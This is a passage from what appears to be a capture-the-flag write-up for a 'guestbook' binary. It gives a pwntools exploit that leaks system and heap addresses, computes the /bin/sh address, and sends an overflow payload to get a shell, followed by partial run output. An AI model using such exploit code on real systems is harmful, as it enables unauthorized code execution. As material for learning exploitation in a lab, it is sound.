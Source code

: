 ```
#Create the function which will calculate the address of /bin/sh from the address of system, since they are both in libc
def calc_binsh(system_adr):
	binsh = system_adr + 0x1249af
	log.info("The address of binsh is: " + hex(binsh))
	return binsh

#Create the function which will create the payload and send it
def attack(system, binsh, heap):
	target.sendline("2")
	print target.recvuntil(">>>")
	target.sendline("0")
	print target.recvuntil(">>>")
	payload = "0"*0x4 + "\x00" + "1"*0x5f + p32(0x0) + "2"*0x4 + p32(heap) + "3"*0x2c + p32(system) + "4"*0x4 + p32(binsh)
	target.sendline(payload)

#Run the start function
start()

#Get the infoleak, for the address of system and the address of the heap space for the first name
print target.recvuntil(">>")
target.sendline("1")
print target.recvuntil(">>>")
target.sendline("6")
leak = target.recv(24)
print target.recvuntil(">>")
system_adr = u32(leak[20:24])
heap_adr = u32(leak[0:4])
log.info("The address of system is: " + hex(system_adr))
log.info("The address of heap is: " + hex(heap_adr))

#Calculate the address of /bin/sh
binsh = calc_binsh(system_adr)

#Launch the attack
attack(system_adr, binsh, heap_adr)

#Drop to an interactive shell
target.interactive()
```

Let's run the exploit:
```
$	python exploit.py 
[+] Starting local process './guestbook': pid 15437
Please setup your guest book:
Name for guest: #0
>>>
Name for guest: #1
>>>
Name for guest: #2
>>>
Name for guest: #3
>>>
---------------------------
1: View name
2: Change name
3. Quit
>>
Which entry do you want to view?
>>>
�Y\x8a\xffX��V
---------------------------
```